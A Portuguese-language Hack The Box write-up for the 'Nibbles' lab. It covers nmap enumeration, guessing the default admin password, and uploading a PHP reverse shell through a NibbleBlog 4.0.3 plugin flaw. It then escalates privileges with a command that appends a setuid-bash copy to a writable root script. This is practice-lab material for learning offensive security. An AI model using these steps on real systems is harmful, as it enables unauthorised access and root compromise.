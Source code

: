 ```yaml
---
title:     "Hack The Box - Nibbles"
tags: [linux,easy, CVE: 2015-6967, rootbash]
categories: Linux
---
```


![1.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-nibbles/1.jpg)

## Enumeration

Iniciamos o processo de enumeracao...

```
# Nmap 7.80 scan initiated Mon Jul 13 18:51:10 2020 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/HTB-Linux/nibbles/results/10.10.10.75/scans/_quick_tcp_nmap.txt -oX /root/HTB-Linux/nibbles/results/10.10.10.75/scans/xml/_quick_tcp_nmap.xml 10.10.10.75
Nmap scan report for 10.10.10.75
Host is up, received user-set (0.13s latency).
Scanned at 2020-07-13 18:51:11 EDT for 15s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jul 13 18:51:26 2020 -- 1 IP address (1 host up) scanned in 15.55 seconds
```

Encontro duas portas abertas.... 80 e 22

Acessando o server apache na porta 80 encontro uma simples msg...

![2.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-nibbles/2.jpg)

Olhando o source encontro um comentario que nos leva a uma applicacao `Nibblesblog`

![3.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-nibbles/3.jpg)

Accessando a aplicacao e pesquisando sobre ela, encontro duas exploracoes... se for a versao 3 existe multiplos `sqli` se for a 4 eu preciso de um usuario e senha para explorar.

entao, verifiquei logo se era possovel sqli mas depois de verificar, vi que nao era... entao, restava obter uma login valido..

tentei, varias WORDLISTS mas sem sucesso... a aplicacao sempre me bloqueava depois de algumas tentativas...

Resolvi entao, fazer manualmente algo do tipoo

```
admin:admin
admin:123456
admin:nibbles
admin:12345678                       --->>> LEMBRE-SE DE TENTAR O MAXIMO DE SENHAS (empresa@2020, nomedamaquina, UPPER, lower e etc.. AS pessoas costumam usar senhas faceis)
admin:password
admin:Passw0rd
admin:passw0rd!
```

na terceira tentativa eu consigo o acesso que precisava com o `admin:nibbles` , agora usanso a exploracao para a versao 4 de acordo com esse site, obtenho rapidamente uma reverse shell..

## Reverse Shell

***reference*** https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html


1 - acesse http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image
2 -  em seguida, localize em seu kali um shell em php `locate php-reverse`
3 -  edite com seu ip e a porta desejada.
4 - ative o listen  na porta escolhida 
5 - faca o uplload da reverse shell
6 - e acesse sua reverse nesse link..  http://10.10.10.75/nibbleblog/content/private/plugins/my_image/

![4.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-nibbles/4.jpg)

agora que temos nossa shell vamos escalar nossos privilegios

## Privilege Escalation

Usando algums tools para agilizaar o processo de PE encontro algo interessante, 

![5.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-nibbles/5.jpg)

entao, depois de extrair tenho acesso ao arquivo `monitor.sh`

adicionei uma nova linha nesse arquivo com o seguinte comando

`echo "cp /bin/bash /tmp/rootbash; chown root /tmp/rootbash; chmod +s /tmp/rootbash" >> monitor.sh`

logo em seguida executei

![7.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-nibbles/7.jpg)

navego entao ate o `\tmp` dou permissao de execucao ao nosso `rootbash` usando o seguinte comando `chmod +x rootbash`

e entao depois de ter feito isso, eh so executar `rootbash -p`

![8.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-nibbles/8.jpg)




